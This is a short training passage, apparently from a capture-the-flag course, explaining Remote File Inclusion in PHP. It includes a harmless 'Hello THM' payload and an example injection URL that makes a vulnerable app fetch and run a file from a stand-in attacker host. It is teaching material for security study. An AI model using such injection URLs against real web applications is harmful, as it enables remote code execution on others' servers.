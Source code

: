 ![27ce73a1b7803965bf07204a0b7140ed.png](../../images/27ce73a1b7803965bf07204a0b7140ed.png)


The following figure is an example of steps for a successful RFI attack! Let's say that the attacker hosts a PHP file on their own server http://attacker.thm/cmd.txt where cmd.txt contains a printing message Hello THM.

    <?PHP echo "Hello THM"; ?>

First, the attacker injects the malicious URL, which points to the attacker's server, such as http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt. If there is no input validation, then the malicious URL passes into the include function. Next, the web app server will send a GET request to the malicious server to fetch the file. As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker. In our case, the current page somewhere has to show the Hello THM message.
